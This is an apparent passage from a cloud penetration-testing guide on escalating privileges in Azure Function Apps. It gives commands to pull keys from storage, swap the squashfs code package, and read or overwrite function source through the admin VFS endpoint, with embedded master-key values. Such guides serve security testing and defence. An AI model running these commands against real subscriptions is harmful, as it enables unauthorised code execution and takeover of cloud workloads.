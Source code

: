 It's also possible to find the **master and functions keys** stored in the storage account in the container **`azure-webjobs-secrets`** inside the folder **`<app-name>`** in the JSON files you can find inside.

> [!CAUTION]
> With enough permission to connect to the blob container that **contains the code in a zip extension file** (which actually is a **`squashfs`**) it's possible to execute arbitrary code in the Function and escalate privileges.

```bash
# Modify code inside the script in /tmp/fs adding your code

# Generate new filesystem file
mksquashfs /tmp/fs /tmp/scm-latest-<app-name>.zip  -b 131072 -noappend

# Upload it to the blob storage
az storage blob upload \
  --account-name <storage-account> \
  --container-name scm-releases \
  --name scm-latest-<app-name>.zip \
  --file /tmp/scm-latest-<app-name>.zip \
  --overwrite
```

### `Microsoft.Web/sites/host/listkeys/action`

This permission allows to list the function, master and system keys, but not the host one, of the specified function with:

```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```

With the master key it's also possible to to get the source code in a URL like:

```bash
# Get "script_href" from
az rest --method GET \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/functions?api-version=2024-04-01"

# Access
curl "<script-href>?code=<master-key>"
# Python function app example
curl "https://newfuncttest123.azurewebsites.net/admin/vfs/home/site/wwwroot/function_app.py?code=RByfLxj0P-4Y7308dhay6rtuonL36Ohft9GRdzS77xWBAzFu75Ol5g==" -v
# JavaScript function app example
curl "https://consumptionexample.azurewebsites.net/admin/vfs/site/wwwroot/HttpExample/index.js?code=tKln7u4DtLgmG55XEvMjN0Lv9a3rKZK4dLbOHmWgD2v1AzFu3w9y_A==" -v
```

And to **change the code that is being executed** in the function with:

```bash
# Set the code to set in the function in /tmp/function_app.py
## Python function app example
curl -X PUT "https://newfuncttest123.azurewebsites.net/admin/vfs/home/site/wwwroot/function_app.py?code=RByfLxj0P-4Y7308dhay6rtuonL36Ohft9GRdzS77xWBAzFu75Ol5g==" \
--data-binary @/tmp/function_app.py \
-H "Content-Type: application/json" \
-H "If-Match: *" \
-v

# NodeJS function app example
curl -X PUT "https://consumptionexample.azurewebsites.net/admin/vfs/site/wwwroot/HttpExample/index.js?code=tKln7u4DtLgmG55XEvMjN0Lv9a3rKZK4dLbOHmWgD2v1AzFu3w9y_A==" \
--data-binary @/tmp/index.js \
-H "Content-Type: application/json" \
```